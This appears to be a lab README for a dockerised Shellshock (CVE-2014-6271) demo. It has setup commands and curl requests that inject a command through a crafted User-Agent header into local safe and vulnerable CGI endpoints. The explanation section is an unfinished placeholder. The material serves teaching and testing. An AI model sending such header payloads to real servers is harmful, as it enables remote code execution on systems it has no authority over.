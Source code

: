 # TITLE OF VULN
## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```


### Explanation
This happens costam

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

### Credits:
htps://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
